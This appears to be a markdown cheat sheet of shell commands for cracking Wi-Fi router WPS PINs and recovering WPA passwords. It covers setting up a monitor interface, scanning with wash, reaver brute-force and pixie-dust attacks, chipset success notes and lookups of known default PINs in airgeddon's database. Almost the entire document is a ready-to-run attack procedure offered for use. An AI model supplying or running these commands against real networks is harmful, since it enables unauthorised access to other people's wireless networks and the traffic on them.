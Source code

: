 ### Normal setup

```text
sudo systemctl stop NetworkManager
sudo airmon-ng check kill
sudo iw dev
```
#### Create Monitor Mode Device

```text
sudo ip link set wlan0 down
sudo iw dev wlan0 interface add wlan0mon type monitor
sudo ip link set wlan0mon up					            
```

### Check for networks with wps available
```text
wash -i wlan0mon
```

```text
BSSID               Ch  dBm  WPS  Lck  Vendor    ESSID
--------------------------------------------------------------------------------
AA:BB:CC:XX:YY:ZZ    1  -88  2.0  No   Broadcom  linksys
```

### Attacks to retrieve the pin

#### standard attack
```text
sudo reaver  -i wlan0mon -b AA:BB:CC:XX:YY:ZZ -vv
```

#### pixie dust offline attack - (-K 1)
```text
sudo reaver -i wlan0mon -b AA:BB:CC:XX:YY:ZZ -vv -K 1
```

### Resolve password from pin
```text
sudo reaver -i wlan0mon -b AA:BB:CC:XX:YY:ZZ -vv -p 12345678
```

#### Notes
success running this attack against Ralink and RealTek chipsets. And very spotty success against Broadcom chipsets
```text
sudo reaver -i {monitor interface} -b {BSSID of router} -c {router channel} -vvv -K 1 -f
```
#### airgeddon
```text
source /usr/share/airgeddon/known_pins.db
echo ${PINDB["0013F7"]}	#first three parts of the BSSID CODE
echo /usr/share/airgeddon/known_pins.db ${PINDB["0013F7"]} 
grep "0013F7" /usr/share/airgeddon/known_pins.db
```

https://kalitut.com/wifi-attack-with-wps-using-reaver/

https://axcheron.github.io/hacking-wps-using-reaver-and-pixie-dust-attack/
